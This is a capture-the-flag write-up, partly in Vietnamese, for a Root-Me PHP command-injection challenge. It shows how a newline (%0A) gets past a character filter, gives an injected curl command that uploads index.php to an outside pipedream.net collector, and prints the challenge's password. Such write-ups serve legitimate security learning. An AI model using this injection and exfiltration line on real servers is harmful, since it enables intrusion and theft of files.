





# PHP- Command injection

\*\*\*Link: http://challenge01.root-me.org/web-serveur/ch53/index.php

## Request



## Solution

```js
 *** Với bài này , một số filter đã được thêm vào nên không thể sử dụng những kí tự $,$$ ,|, ||,.. hay các
từ cat, ls,...

Nhưng khi sử dụng %0A vừa có thể bypass qua filter, vừa thực thi được command (we can break this command and excute new command via %0a)


```

#### Step1: Thử xem có thể bypass bằng %0a không, thêm một đoạn url được tạo ra để bắt request, bước sau sẽ dùng ( dùng trang https://pipedream.com/ để tạo url)



Ta thấy trả về "Ping ok" vậy là có thể bypass.



#### Step2: Thực thi lệnh wget để gửi file index.php ( vì trong file sẽ chứa flag) bằng request trên.

```js
=> ip=localhost%0Acurl -X POST -F file=@index.php https://enb393uk8n8ckk.m.pipedream.net?id=abc
```


Nhận được request trong trang web, trong body sẽ có url , đây là nơi lưu file index.php mà chúng ta đã gửi.





```HTML
***Vậy pass là: Comma@nd_1nJec7ion_Fl@9_1337_Th3_G@m3!!!

```
